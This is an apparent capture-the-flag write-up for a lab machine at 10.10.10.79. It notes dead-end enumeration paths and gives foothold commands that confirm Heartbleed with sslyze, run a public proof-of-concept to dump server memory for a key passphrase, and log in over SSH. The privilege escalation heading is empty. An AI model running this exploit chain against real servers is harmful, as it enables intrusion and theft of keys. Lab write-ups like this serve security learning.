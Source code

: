 Look at the autorecon results. mitm vulns are all rabbit holes.
I alsom tried to do RCE on decode/encode.php But also rabbit holes as they did the sanatization quite well.

### Foothold
```
# Google "xkcd heartbleed"

sslyze --heartbleed 10.10.10.79:443 # It is vulnerable

# Find the good exploit https://github.com/sensepost/heartbleed-poc
python heartbleed-poc.py -n100 -f dump.bin 10.10.10.79 # Get the passphrase

chmod 600 private.key
ssh hype@10.10.10.79 -i private.key # Use the passphrase
```

### Priv
